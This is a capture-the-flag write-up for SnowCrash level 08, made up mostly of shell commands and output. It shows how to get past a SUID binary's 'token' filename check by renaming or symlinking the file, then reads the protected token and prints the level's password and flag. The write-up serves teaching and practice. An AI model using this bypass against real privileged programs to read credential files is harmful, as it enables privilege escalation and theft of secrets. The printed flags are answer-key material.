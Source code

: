 # Level 08

## Vulnerability
Privilege escalation - suid.

## Context
```
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## Solution
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```
Ok lets create a file to read.
```
level08@SnowCrash:~$ echo "oh hi" > hi
level08@SnowCrash:~$ ./level08 hi
oh hi
```
Looks like the binary ```level08``` prints the contents of a file given as argument. We don't have permissions to read token directly, will ```level08``` read ```token``` for us?
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
Hmm, why not?
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                    = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                = 27
exit(1 <unfinished ...>
```
It seems like it calls strstr to see if "token" is contained in the filename, and rejects access if true. So what if we simply change the filename? (An alternative is to create a symlink ```ln -s token password```)
```
level08@SnowCrash:~$ mv token password
level08@SnowCrash:~$ ./level08 password
quif5eloekouj29ke0vouxean
```
Great! Lets log in to flag08 and launch getflag.
```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
